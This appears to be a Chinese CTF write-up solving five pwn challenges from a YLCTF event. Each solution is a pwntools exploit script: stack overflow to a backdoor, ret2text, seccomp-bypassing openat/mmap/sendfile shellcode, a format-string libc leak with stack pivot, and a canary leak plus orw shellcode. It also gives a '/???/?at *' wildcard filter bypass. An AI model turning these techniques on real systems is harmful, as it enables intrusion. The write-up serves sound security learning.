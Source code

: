 # ezstack
![](../../../../images/fe504eb6a1c3bca10157ebd575a493d4.png)

stack 函数中存在栈溢出漏洞。

有个 vuln 函数，里面可以执行命令，但是过滤了一些字符。

![](../../../../images/62c321e798ac7eec9ad3261e2672def8.png)

我们可以通过 `/???/?at` 代替 cat，然后用通配符读出根目录下所有文件，即 `/???/?at *`

总体思路就是栈溢出然后跳到 vuln 函数，执行命令，很简单。

![](../../../../images/6dad0da40ae8bd8068ecc80cb0a376a3.png)

```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *
context.log_level = 'debug'
p = remote("challenge.yuanloo.com",39503)
p.recvuntil(b"good stack")
backdoor = 0x401275
ret = 0x401352
payload = b'a'*48 + b'b'*8 + p64(ret) + p64(backdoor)
p.sendline(payload)
p.interactive()



```

# giaopwn
![](../../../../images/3e7160ecbad30dae4841d2dd9cdfa7d9.png)

vuln 函数中存在栈溢出漏洞。

![](../../../../images/c289b1baaf84b07b4962bc737ec3892c.png)

有个后面函数 backdoor，但是 system 的参数不对，去字符串里面找一下。

![](../../../../images/97112f33c5049c8926a19377299a7e4b.png)

在 data 段里面找到一个 cat flag。

接下来就是简单的 ret2text。

![](../../../../images/9e86fcbe2ecae202283e10e88b4b1f92.png)

```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *
p = remote("challenge.yuanloo.com",44132)
sys = 0x4006D2
sh = 0x601048
ret = 0x4006C5
rdi = 0x400743
payload = b'a'*32 + b'b'*8 + p64(rdi) + p64(sh) + p64(sys)
p.sendline(payload)
p.interactive()



```

# ezorw
禁用常规orw后，可以用openat，mmap，sendfile实现相同功能。

![](../../../../images/e9644a860b63658065a404f79bcbfafe.png)

```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *
context.arch = 'amd64'
context.log_level='debug'
p = remote('challenge.yuanloo.com',37286)
p.recvuntil(b"welcome to YLCTF orw~\n")
shellcode=shellcraft.openat(0,'/flag',0)
shellcode+=shellcraft.mmap(0x10000,0x100,1,1,'eax',0)
shellcode+=shellcraft.sendfile(1,3,0,0x100)
sh=asm(shellcode)
print(sh)
p.sendline(sh)
p.recv()
p.interactive()



```



# ezfmt
题目给了 libc。

![](../../../../images/8760ddd78a27a9d26536c8bc73eb0eea.png)

有个格式化字符串漏洞，用它泄露 libc 地址后，直接栈迁移到 bss 执行 onegadget。

```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *
context.log_level = 'debug'
binary = "./ezfmt"
elf = ELF(binary)
p = remote('challenge.yuanloo.com',31426)
func = 0x401214
pop_rdi = 0x4012b3
leave_ret = 0x401241
p.sendafter(b"YLCTF", (b"%13$p").ljust(0x20, b'\x00')+p64(elf.bss(0x508))+p64(func))
p.recvuntil(b"0x")
libc_address = int(p.recv(12), 16) - 0x24083
one = libc_address + 0xe3b01
pay = p64(elf.bss(0x508)-0x20) + p64(one) + p64(0)*2 + p64(elf.bss(0x508)-0x20) + p64(leave_ret)
p.send(pay)
p.interactive()



```





# canary_orw
题目给了提示，jmp rsp，并且 NX 保护没关，栈可执行，可以用 13 字节构造一次 write 泄露 canary，然后在栈上写 orw 的 shellcode 就可以了。

```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *
context.arch = 'amd64'
context.log_level='debug'
p = remote("challenge.yuanloo.com",42481)
binary = './canary'
elf = ELF(binary)
mmap = elf.bss()+0x500
orw=shellcraft.open('./flag')
orw+=shellcraft.read(3,mmap,0x50)
orw+=shellcraft.write(1,mmap,0x50)
orw=asm(orw)
jmp_rsp = 0x40081B
p.recvuntil(b"Say some old spells to start the journey\n")
shellcode = b"\x66\x83\xee\x10\x0f\x05\xb8\x20\x08\x40\x00\xff\xe0"
pay = p64(jmp_rsp) + shellcode
p.send(pay)
canary = u64(p.recvuntil(b"\x00\x00")[-10:-2])
print(hex(canary))
p.recvuntil(b"me the location of the Eye of the Deep Sea\n")
p.send(b'a'*0x8+p64(mmap))
p.recvuntil(b"I have magic\n")
p.send(b'/flag'.ljust(8,b'a'))
p.recvuntil(b"Let's go!\n")
pause()
shellcode = asm(
    '''
    sub rsp,0x100
    '''
)
pay = b'b'*0x10 + p64(canary)*3 + p64(jmp_rsp) + shellcode + orw
p.sendline(pay)
p.interactive()



```

